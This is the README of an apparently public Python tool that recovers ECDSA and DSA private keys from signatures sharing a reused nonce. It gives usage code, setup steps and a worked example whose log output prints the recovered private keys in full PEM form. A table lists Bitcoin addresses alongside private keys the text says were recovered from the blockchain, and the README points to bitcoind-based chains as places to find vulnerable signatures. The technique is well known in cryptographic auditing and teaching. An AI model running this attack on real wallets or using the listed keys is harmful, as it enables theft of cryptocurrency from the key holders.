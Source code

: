 # ecdsa-key-recovery
Perform ECDSA and DSA Nonce Reuse private key recovery attacks

###### This is kind of an improved version of the DSA only variant from https://github.com/tintinweb/DSAregenK


Let's recover the private-key for two signatures sharing the same `nonce k`. Note how choosing the same `nonce k` results in both signatures having an identical signature value `r`. To find good candidates for an ECDSA nonce reuse check for signatures sharing the same `r`, `pubkey` on `curve` for different messages (or hashes). E.g. blockchain projects based off `bitcoind` are usually good sources of ECDSA signature material.

* **sampleA** (**r**, *sA, hashA*, pubkey, curve)
* **sampleB** (**r**, *sB, hashB*, pubkey, curve)

```python
sampleA = EcDsaSignature(r, sA, hashA, pubkey, curve)
sampleB = EcDsaSignature(r, sB, hashB, pubkey, curve) # same privkey as sampleA, identical r due to nonce reuse k.

# recover the private key
sampleA.recover_nonce_reuse(sampleB)  # populates sampleA with the recovered private key ready for use
print sampleA.privkey 
```

#### setup

```
#> virtualenv -p python2.7 .env27
#> . .env27/bin/activate
(.env27) #> python setup.py install
(.env27) #> python tests/test_ecdsa_key_recovery.py
```

#### Recovering Private Keys from the Bitcoin Blockchain

[tools/README.md](tools/README.md)



| BTC Address  | Base58 Privkey |   r| 
| ------------- | ------------- | -------------|
| 1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962 |5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT | 113563387324078878147267949860139475116142082788494055785668341901521289846519 |  
| 1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962 | 5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT | 18380471981355278106073484610981598768079378179376623360720556873242139981984|
|1C8x2hqqgE2b3TZPQcFgas73xYWNh6TK9W|5JKkG6KXLCCPXN9m29ype6My7eR4AnCLaHKYrLvn6d3nd8BLjjw| 19682383735358733565748628081379024202682929012377912380310432818686294127462|
|1A8TY7dxURcsRtPBs7fP6bDVzAgpgP4962|5JsYaHVGCUzuXaQ5VkaA21VFPJFuArRWfSB77sqzWkWuTMMjXsT|6828441658514710620715231245132541628903431519484374098968817647395811175535|

### Example

create recoverable signature objects:
```python
from ecdsa_key_recovery import DsaSignature, EcDsaSignature, ecdsa, bignum_to_hex, bytes_fromhex

# specify curve
curve = ecdsa.SECP256k1

# create standard ecdsa pubkey object from hex-encoded string
pub = ecdsa.VerifyingKey.from_string(
        bytes_fromhex("a50eb66887d03fe186b608f477d99bc7631c56e64bb3af7dc97e71b917c5b3647954da3444d33b8d1f90a0d7168b2f158a2c96db46733286619fccaafbaca6bc"), curve=curve).pubkey
            
# create sampleA and sampleB recoverable signature objects.
# long r, long s, bytestr hash, pubkey obj.
sampleA = EcDsaSignature((3791300999159503489677918361931161866594575396347524089635269728181147153565,   #r
                          49278124892733989732191499899232294894006923837369646645433456321810805698952), #s
                         bytes_fromhex(bignum_to_hex(
                             765305792208265383632692154455217324493836948492122104105982244897804317926)),
                         pub)
sampleB = EcDsaSignature((3791300999159503489677918361931161866594575396347524089635269728181147153565,   #r
                          34219161137924321997544914393542829576622483871868414202725846673961120333282), #s'
                         bytes_fromhex(bignum_to_hex(
                             23350593486085962838556474743103510803442242293209938584974526279226240784097)),
                         pub)
                         
# key not yet recovered
assert (sampleA.x is None)     
```

recover the private key for **sampleA**
```python
# attempt to recover key - this updated object sampleA
sampleA.recover_nonce_reuse(sampleB)    # recover privatekey shared with sampleB
assert (sampleA.x is not None)          # assert privkey recovery succeeded. This gives us a ready to use ECDSA privkey object
assert sampleA.privkey
```

#### output
```
INFO:__main__:------------EcDSA------------
DEBUG:__main__:<EcDsaSignature 0x2c7a61 sig=(3791300999…,4927812489…) public=✔ private=⨯ > - recovering private-key from nonce reuse ...
DEBUG:__main__:<EcDsaSignature 0x2c7a61 sig=(3791300999…,4927812489…) public=✔ private=✔ > - Private key recovered!
-----BEGIN EC PRIVATE KEY-----
MHQCAQEEIOdzzzX85WfQYiIDwo9nR4ozYbrn5utDZrUOHSfrHtguoAcGBSuBBAAK
oUQDQgAEpQ62aIfQP+GGtgj0d9mbx2McVuZLs699yX5xuRfFs2R5VNo0RNM7jR+Q
oNcWiy8ViiyW20ZzMoZhn8yq+6ymvA==
-----END EC PRIVATE KEY-----

DEBUG:__main__:<EcDsaSignature 0x2c7a5b sig=(3791300999…,4927812489…) public=✔ private=⨯ > - recovering private-key from nonce reuse ...
DEBUG:__main__:<EcDsaSignature 0x2c7a5b sig=(3791300999…,4927812489…) public=✔ private=✔ > - Private key recovered!
-----BEGIN EC PRIVATE KEY-----
MHQCAQEEIOdzzzX85WfQYiIDwo9nR4ozYbrn5utDZrUOHSfrHtguoAcGBSuBBAAK
oUQDQgAEpQ62aIfQP+GGtgj0d9mbx2McVuZLs699yX5xuRfFs2R5VNo0RNM7jR+Q
oNcWiy8ViiyW20ZzMoZhn8yq+6ymvA==
-----END EC PRIVATE KEY-----

INFO:__main__:------------DSA------------
DEBUG:__main__:generated sample signatures: (('\x96.\xed\x06?Tx\x87\x96\xc0Jxe\xc1\xb7\xa0}\xbaSl', (962114315288785318297754502373467834746102876259L, 152066227943132308247866282041325280216845090990L), <_DSAobj @0x2c49a80 y,g,p(1024),q>), ('\xf2\x9a\x9a\x81\xa8\x1b\x071Z1\xe28\xd3\x993\xff\xc7[b\xab', (962114315288785318297754502373467834746102876259L, 357089477795349418794190243474458899186606359757L), <_DSAobj @0x2c788f0 y,g,p(1024),q>))
DEBUG:__main__:Signature Objects: [<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=⨯ >, <DsaSignature 0x2c7a3f sig=(9621143152…,3570894777…) public=✔ private=⨯ >]
DEBUG:__main__:<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=⨯ > - recovering privatekey from nonce reuse...
DEBUG:__main__:<DsaSignature 0x2c7a5b sig=(9621143152…,1520662279…) public=✔ private=✔ > - Private key recovered!
-----BEGIN PRIVATE KEY-----
MIIBSgIBADCCASsGByqGSM44BAEwggEeAoGBAIAAAAAAAAAA8tZboZpqrRAwKtK0
mXxwct7Es1BBih3HheeLBMOHCqPlwJmfUA8kBZQZzu3V+at5IWlRi0fTikvNWuqN
GLqMkf0kqXOhzP8/hD7B/CUF1YedzGKqC2BfhX/RON+CD/mFi35As8G73O29GCUl
qMd0KYhHHtBvVPiLAhUA/5r9a94k/9/mHVub1U0WrAJv2B8CgYARyESPcKSpBEoT
nXlMrX1M71RySJL5nrqUKpFTFRSoIwX5sj7ZRfKSqbf2umwSu8LfCEOZ2qKu0+jp
+bUC0oihSjaVCrADZykPr67k9mt56xx1wP4vUJJNfM3Wkty5xsI3JtUFbQ5EzFAt
JhLRWxOqcGEm35ZPQ4ao1qZsIsSVCQQWAhRqVNUTHGUaRRA5lXlmN4sw9glosQ==
-----END PRIVATE KEY-----
DEBUG:__main__:generated sample signatures: (('\x96.\xed\x06?Tx\x87\x96\xc0Jxe\xc1\xb7\xa0}\xbaSl', (921214889680762780870505834724573810649257487648L, 1206590109737383111438209532388130932310558452933L), <_DSAobj @0x2c78cd8 y,g,p(1024),q>), ('\xf2\x9a\x9a\x81\xa8\x1b\x071Z1\xe28\xd3\x993\xff\xc7[b\xab', (921214889680762780870505834724573810649257487648L, 254170456806936279470958328275930254179957847437L), <_DSAobj @0x2c788f0 y,g,p(1024),q>))
DEBUG:__main__:Signature Objects: [<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=⨯ >, <DsaSignature 0x2c7a61 sig=(9212148896…,2541704568…) public=✔ private=⨯ >]
DEBUG:__main__:<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=⨯ > - recovering privatekey from nonce reuse...
DEBUG:__main__:<DsaSignature 0x2c7a83 sig=(9212148896…,1206590109…) public=✔ private=✔ > - Private key recovered!
-----BEGIN PRIVATE KEY-----
MIIBSwIBADCCASsGByqGSM44BAEwggEeAoGBAIAAAAAAAAAARApDBH1CEeZPeIM9
mMb6l3FyY8+AOy+cdiDzCaqlkIRVIRRxvnCH5oJ6gkinosGscZMTgF7IwQJzDHFm
oxvVdpACrj5Je+kpF6djefAbe+ByZ4FowkGq1EdMZF8aZzsik3CFkEA/vDsjvAsg
XmKRvOnFHkkFuKCRAhUA/+rcmBQ71NBsDzkbusi6NQpTNF8CgYAFVt8xSXTiCGn8
+bqWyoX+gjItArrT28o6fGnq+apjwasvWDHq1FETk/gwqTbTwWTiMo2eOTImRKDF
MbK1us+DjhloAUuhL6nCRQhsLs4Jq+8A/y7aol/HjCz1fHRKKDD9wqKDf2kWdI97
Kb2Hq4AUoJWTCT0ijX+oQJafbywjdwQXAhUAniK/kyRv/SFd1uJjuDMh0EntMws=
-----END PRIVATE KEY-----

```

The library is written in a way that it tries to upgrade `pubkey only ecdsa objects` to `private key enabled ecdsa objects` upon successful recovery. This makes it easy to work with recovered key objects. The library performs both **ECDSA** and **DSA** key recovery.
